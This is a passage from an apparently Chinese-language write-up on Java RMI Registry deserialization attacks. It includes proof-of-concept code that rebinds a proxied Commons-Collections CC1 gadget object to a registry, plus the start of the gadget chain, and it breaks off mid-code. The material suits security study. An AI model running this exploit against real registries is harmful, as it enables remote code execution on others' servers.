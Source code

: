 第二个参数即对应server侧`RemoteCall var3 = super.ref.newCall(this, operations, 3, 4905912898345647071L);`

第三四个参数，则对应server侧，RemoteCall对象中传入的3和4905912898345647071L。

#### <jdk8u121,<JDK7u13,<JDK6u141版本下通过bind、rebind、lookup、unbind对Register的攻击

通过前面的分析可知，只要在bind或者rebind时，绑定一个恶意对象到Register，即可实现对Register的反序列化攻击。而且我们发现在尽显lookup和unbind时，在Register也会触发反序列化，不过它俩相对特殊，因为客户端在进行lookup或者服务端进行unbind到Register时，他们传入的参数为String类型，实现恶意对象的传入需要做一些特别处理。

##### bind和rebind

这里bind和rebind几乎相同，以rebind为例：

使用CC1攻击的poc代码如下

```java
import org.example.payload.CC1;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;

public class CC1AtackRegister  {
    public static void main(String[] args) throws RemoteException, MalformedURLException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, InstantiationException, IllegalAccessException {
        // CC1.getObject()返回值是CC1的恶意对象
        InvocationHandler evalObject  = (InvocationHandler) CC1.getObject();
        // 由于rebind的参数类型的限制，这里需要在恶意对象外包裹一层Remote
        // 因为CC1的恶意对象实现了接口InvocationHandler，这里可以使用动态代理的方式将其封装
        // 因为反序列化存在传递性，当proxyEvalObject被反序列化时，evalObject也会被反序列化，自然也会执行poc链
        Remote proxyEvalObject = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, evalObject);
        String host = "rmi://192.168.110.146:1099/";
        Naming.rebind(host+"CC1", proxyEvalObject);
    }
}
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static Object getObject() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
```